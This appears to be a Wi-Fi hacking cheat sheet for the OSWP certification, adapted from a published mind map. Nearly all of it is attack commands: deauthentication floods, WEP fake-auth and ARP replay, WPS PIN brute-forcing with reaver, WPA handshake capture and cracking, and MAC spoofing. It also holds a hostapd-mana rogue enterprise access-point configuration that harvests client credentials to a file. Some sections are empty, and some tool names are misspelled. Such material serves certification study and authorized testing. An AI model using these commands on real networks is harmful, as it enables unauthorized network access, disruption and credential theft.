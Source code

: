 # OSWP cheat sheets

This cheat sheet based on "WiFi Hacking Mind Map - v1.0 by Jérémy Brun-Nouvion (https://github.com/koutto)"

## Monitoring
### Find all AP and connected devices
```
airodump-ng <interface> --wps --manufacturer --uptime --band <band>
```

### Monitor target AP
```
airodump-ng <interface> --wps --manufacturer --uptime --band <band> -c <channel> --bssid <bssid> -w <capture>
```
### Unhide ESSID
Set channel
```
iwconfig wlan0 channel <channel>
```
Catch beacon with ESSID (Hiden ESSID)
```
aireplay-ng -0 <deauth number> -a <AP MAC> <interface> 
aireplay-ng -0 <deauth number> -a <AP MAC> -c <Client MAC> <interface> #Some clients ignore broadcast deauthentications. If this is the case, you will need to send a deauthentication directed at the particular client.
```


## WEP attack

### Attack using Fake auth and ARP-replay (OPN)
```
aireplay-ng -1 60 -a <AP_MAC> -h <host_MAC> <interface> # Fake auth
aireplay-ng -3 -b <AP_MAC> -h <host_MAC> <interface> # ARP replay
aircrack-ng <*.cap>
```
### Interactive packet Replay (OPN)
```
aireplay-ng -1 60 -a <AP_MAC> -h <host_MAC> <interface> # Fake auth
aireplay-ng -2 -b <AP_MAC> -d ff:ff:ff:ff:ff:ff <interface>

```

## Bypassing WEP (SKA)
```


```


## WPS attack
**Dependencies:** reaver

_Some APs have protections. AP might have PIN timeout after a series of failures. These APs then require either a timeout or a reset to remove the lock._

### Custom PIN association 
 
### Pixie Dust attack 
```
 reaver -i <interface> -b <AP_MAC> -K
```
 
### Bruteforce PIN attack 
```
sudo reaver -i <interface> -b <AP_MAC>
```
 
### Known PINs attack
```
reaver -i <interface> -b <AP_MAC> -p <PIN>
```
 
### Null PIN attack 
_Only a very few APs are vulnerable to this attack_
```
reaver -i <interface> -b <AP_MAC> -p "" -N
```

## WPA attack
### Handshake Capture (req. client) & Cracking
```
airdump-ng -c <channel> --bssid <AP_MAC> -w <capture> <interface>
aircrack-ng -a 2 -b <AP_MAC> -w <wordlist> <capture>
```
### PMKID Capture (client-less) & Cracking
```

```

## WPA Enterprise



## Connect to AP

### Open
```
iw <interface> connect <ESSID>
dhclient <interface>
```

### WEP
```
iw <interface> connect <ESSID> key 0:<key>
dhclient <interface>
```

### WPA2

Dependencies: wpasupplicant
```

wpa_passphrase "<ESSID>" <key> | sudo tee /etc/wpa_supplicant.conf
wpa_supplicant -B -c /etc/wpa_supplicant.conf -i <interface>
dhclient <interface>
```

### WPA enterprise

```
# SSID of the AP
ssid=Amaze_LLC

# Network interface to use and driver type
# We must ensure the interface lists 'AP' in 'Supported interface modes' when running 'iw phy PHYX info'
interface=wlan1
driver=nl80211

# Channel and mode
# Make sure the channel is allowed with 'iw phy PHYX info' ('Frequencies' field - there can be more than one)
channel=1
# Refer to https://w1.fi/cgit/hostap/plain/hostapd/hostapd.conf to set up 802.11n/ac/ax
hw_mode=g

# Setting up hostapd as an EAP server
ieee8021x=1
eap_server=1

# Key workaround for Win XP
eapol_key_index_workaround=0

# EAP user file we created earlier
eap_user_file=mana.eap_user

# Certificate paths created earlier
ca_cert=/etc/freeradius/3.0/certs/ca.pem
server_cert=/etc/freeradius/3.0/certs/server.pem
private_key=/etc/freeradius/3.0/certs/server.key
# The password is actually 'whatever'
private_key_passwd=whatever
dh_file=/etc/freeradius/3.0/certs/dh

# Open authentication
auth_algs=1
# WPA/WPA2
wpa=3
# WPA Enterprise
wpa_key_mgmt=WPA-EAP
# Allow CCMP and TKIP
# Note: iOS warns when network has TKIP (or WEP)
wpa_pairwise=CCMP TKIP

# Enable Mana WPE
mana_wpe=1

# Store credentials in that file
mana_credout=/tmp/hostapd.credout

# Send EAP success, so the client thinks it's connected
mana_eapsuccess=1

# EAP TLS MitM
mana_eaptls=1
```



mana.eap_user
```
*     PEAP,TTLS,TLS,FAST,MD5,GTC
"t"   TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2    "pass"   [2]
```


```
sudo dhclient <interface>
```

## Other
### MAC-spoofing
```
ip link set dev <interface> down
ip link set dev <interface> address <XX:XX:XX:XX:XX:XX>
ip link set dev <interface> up
```
### Prepare Attacker PC (Monitor mode)
```
airmon-ng check kill
airmon-ng start <interface>
OR
iw dev <interface> set monitor none
```
### Back to normal modee (Managed mode)
```
airmon-ng stop <Monitor interface>
systemctl start wpa_supplicant
systemctl start NetworkManager
```
### No associated devices
```
aireply-ng -0 100 -e <ESSID> <interface>
```
